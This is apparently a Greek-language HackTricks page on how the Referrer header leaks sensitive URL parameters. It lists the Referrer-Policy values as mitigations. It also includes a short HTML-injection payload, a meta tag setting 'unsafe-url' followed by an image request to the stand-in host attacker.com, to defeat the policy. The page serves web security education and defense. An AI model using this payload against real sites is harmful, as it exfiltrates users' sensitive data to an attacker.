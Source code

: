 {{#include ../banners/hacktricks-training.md}}

# Referrer headers and policy

Referrer είναι η κεφαλίδα που χρησιμοποιούν οι φυλλομετρητές για να υποδείξουν ποια ήταν η προηγούμενη σελίδα που επισκέφτηκε ο χρήστης.

## Ευαίσθητες πληροφορίες που διαρρέουν

Αν σε κάποιο σημείο μέσα σε μια ιστοσελίδα οποιαδήποτε ευαίσθητη πληροφορία βρίσκεται σε παραμέτρους GET request, αν η σελίδα περιέχει συνδέσμους σε εξωτερικές πηγές ή αν ένας επιτιθέμενος είναι σε θέση να κάνει/προτείνει (κοινωνική μηχανική) στον χρήστη να επισκεφθεί μια διεύθυνση URL που ελέγχεται από τον επιτιθέμενο. Θα μπορούσε να είναι σε θέση να εξάγει τις ευαίσθητες πληροφορίες μέσα στην τελευταία GET request.

## Mitigation

Μπορείτε να κάνετε τον φυλλομετρητή να ακολουθεί μια **Referrer-policy** που θα μπορούσε να **αποφύγει** την αποστολή ευαίσθητων πληροφοριών σε άλλες διαδικτυακές εφαρμογές:
```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```
## Αντεπίθεση

Μπορείτε να παρακάμψετε αυτόν τον κανόνα χρησιμοποιώντας μια ετικέτα HTML meta (ο επιτιθέμενος πρέπει να εκμεταλλευτεί και μια ένεση HTML):
```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```
## Άμυνα

Ποτέ μην τοποθετείτε ευαίσθητα δεδομένα μέσα σε παραμέτρους GET ή διαδρομές στη διεύθυνση URL.

{{#include ../banners/hacktricks-training.md}}
